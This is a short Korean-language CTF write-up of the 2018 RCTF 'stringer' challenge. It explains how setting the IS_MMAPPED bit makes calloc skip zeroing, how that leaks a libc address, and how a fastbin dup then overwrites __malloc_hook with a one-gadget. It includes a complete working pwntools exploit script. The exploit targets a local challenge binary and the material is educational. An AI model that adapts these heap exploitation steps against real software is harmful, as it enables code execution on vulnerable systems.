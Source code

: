 ```yaml
---
title: "2018RCTF stringer"
date: 2020-7-6
ctf: RCTF
layout: post
---
```


* calloc trick

show 메뉴가 존재했지만 기능은 없었다. 하지만 new할 때 넣은 content를 출력해준다. 하지만 할당할 때 calloc을 사용해서 할당한다는 점이다. calloc을 사용하게 되면 메모리 영역이 다 초기화 된다는 점이다.

 unsorted bin을 만들고 edit을 이용해서 다음청크의 사이즈 1을 증가시킬 수 있어서 IS_MMAPED를 set해주면 메모리를 초기화 하지 않는다는 점이다. calloc.c 코드에서 볼 수있다.

```c
if (chunk_is_mmapped (p))
  {
    if (__builtin_expect (perturb_byte, 0))
      return memset (mem, 0, sz);

    return mem;
  }
```

 그래서 이를 이용해서 같은 크기로 재할당해서 main_arena+88 주소를 leak할 수 있다. 이후에는 fastbin dup해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./stringer')
p = process('./stringer')
libc = e.libc
chunk = 0x0000000000202040

def new(size,content):
	p.sendlineafter(':','1')
	p.sendlineafter(':',str(size))
	p.sendlineafter(':',content)

def edit(idx,idx2):
	p.sendlineafter(':','3')
	p.sendlineafter(':',str(idx))
	p.sendlineafter(':',str(idx2))

def delete(idx):
	p.sendlineafter(':','4')
	p.sendlineafter(':',str(idx))

new(24,'A'*8) # 0 
new(0x100,'B'*8) # 1
new(0x100,'C'*8) # 2
delete(1)
edit(0,24) # set is_mmap
new(0x100,'B'*7) # 1 leak

libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - (0x3c4b20 + 88)
log.info('libc_base : {}'.format(hex(libc_base)))
malloc = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc)))
oneshot = libc_base + 0xf02a4
log.info('oneshot : {}'.format(hex(oneshot)))

new(0x60,'a') # 3
new(0x60,'a') # 4
new(0x60,'a') # 5

delete(4)
delete(5)
delete(4)

new(0x60,p64(malloc-0x23))
new(0x60,'b')
new(0x60,'b')
new(0x60,'A'*19+p64(oneshot))

new(0x60,'finish')

p.interactive()
```

# Reference

https://0xpwny.com/2019/03/14/bypass-calloc-zeroing-memory/

https://github.com/str8outtaheap/heapwn/blob/master/malloc/__libc_calloc.c#L89

https://github.com/andigena/ptmalloc-fanzine/tree/master/03-scraps

